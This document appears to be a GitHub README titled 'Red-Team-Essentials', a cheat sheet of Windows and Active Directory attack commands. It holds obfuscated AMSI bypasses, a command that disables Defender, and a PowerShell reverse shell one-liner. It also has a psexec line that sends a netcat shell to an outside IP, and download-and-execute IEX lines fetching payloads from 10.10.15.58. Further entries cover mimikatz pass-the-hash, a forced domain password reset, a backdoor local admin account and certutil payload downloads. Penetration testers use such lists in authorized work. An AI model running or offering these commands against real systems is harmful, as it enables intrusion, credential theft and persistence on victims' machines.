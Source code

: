 # Red-Team-Essentials

## Disable Defender 

```Powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
 
## Services and startname 

```Powershell
 Get-WmiObject win32_service | format-Table name, startname, startmode
```

## Fore-Change PAssword - generic All 

```Powershell
Set-DomainObjectOwner -Identity stgadm -OwnerIdentity hexninja
Add-DomainObjectAcl -TargetIdentity stgadm -PrincipalIdentity hexninja
$newpass = ConvertTo-SecureString -String 'Password123! -AsPlainText -Force
Set-DomainUserPassword -Identity stgadm -AccountPassword $newpass
```

## Powershell Reverse Shell one Liner (AMSI Bypass)

```Powershell
$ip='192.168.1.114';$port=1337;$client = New-Object System.Net.Sockets.TCPClient -ArgumentList $ip, $port;$s = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};$l = "lol";Set-alias $l ([char]105 + [char]101 + [char]120);while(($i = $s.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (lol $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$s.Write($sendbyte,0,$sendbyte.Length);$s.Flush()};$client.Close()
```

## AMSI Bypass (Modified Version) - Credit to Matt Graebers Reflection method 
```Powershell
$l = "MSAislolmlola";$s=($l[$true-13] + 'ystem.' + $l[$true-14] + 'anagement.' + $l[$true-12] + 'utomation.' + $l[$true-12] + [char]109 + [char]115 + [char]105 + 'Utils');$k=($l[$true-2] + [char]109 + [char]115 + [char]105 + 'InitFailed');[Ref].Assembly.GetType($s).GetField($k,'NonPublic,Static').SetValue($null,$true)
```

## Powershell Download in V4 and V5

```Powershell
 Invoke-WebRequest "http://10.10.15.58/hex.ps1" -OutFile "C:\Windows\TEMP\hex.ps1" 
 ```
 
 ## Ptt using mimikatz
 
```Powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:admin /domain:xyz.local /ntlm:ce03434e2f83b99704a631ae56e2146e /run:powershell.exe"'
```
 
 ## psexec 
 ```Powershell
./ps.exe \\\localip -h -accepteula -u username -p password cmd /c 'C:\nc.exe 192.168.50.138 4444 -e cmd.exe'
 ```
 
## Check Powershell Version 

```Powershell
 $PSVersionTable.PSVersion
```

## Download File Powershell V2 

```Powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.15.58/powerview.ps1', 'C:\users\someuser\Desktop\powerview.ps1') 
```

## Download Execute Powershell One Liner 

```Powershell
powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.58/payload.ps1')
```

## AMSI Bypass - Credit to Nikhil Mittal (PTAcademy)

```Powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Execute this on target machine if you get rdesktop's Cred SSP Error while using remotedesktop

```Cmd
 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
 ```
 
 ## Remote desktop login through domain user credentials 
 
 ```sh
 xfreerdp /u:username /d:adcorp.local /p:"passwordxyz" /v:TARGETIP
 ```
 
 ## Download Execute powershell
 
 ```Cmd
 powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.15.58/payload.ps1')|iex"
 ```
 
 ## Pivoting using sshutle when you have rsa keys 

```sh
sshuttle -r root@TARGETIP -e "ssh -i rsa" TARGETIPRANGE.0/24
```

 ## Adding user on windows cmd line & adding it to local admin group 
 
```Cmd
net user hexninja lolbr654$@123 /ADD
net localgroup administrators hexninja /ADD
```

 ## CertUtil Download remote file
 
 ```cmd
certutil.exe -urlcache -f http://yourip/malicious.exe malicious.exe
```

## CertUtil decode base64

```cmd
certutil -decode malexecbase.b64 malexecutable.exe
```

## regsvr32 to execute malcious dll 

```cmd
regsvr32 /s /u .\exploit.dll
```

## Net1 (you read it right; it's not net) - available functions similar to net

```cmd
Net1 localgroup administrators
Net1 users
```

## The Invoke-AllChecks module runs all current checks for Windows privesc vectors (part of PowerUp) - Not OPsec Safe
```Powershell
Invoke-AllChecks
```

## Calling Invoke-ServiceAbuse (part of PowerUp) to add hexninja (replace this with your username) as admin user
```Powershell
Invoke-ServiceAbuse -Name 'VulService' -UserName hexninja
```

## Where utility to search for config files and everything 

```cmd
Examples:
    WHERE /?
    WHERE myfilename1 myfile????.*
    WHERE $windir:*.*
    WHERE /R c:\windows *.exe *.dll *.bat
    WHERE /Q ??.???
    WHERE "c:\windows;c:\windows\system32:*.dll"
    WHERE /F /T *.dll
```

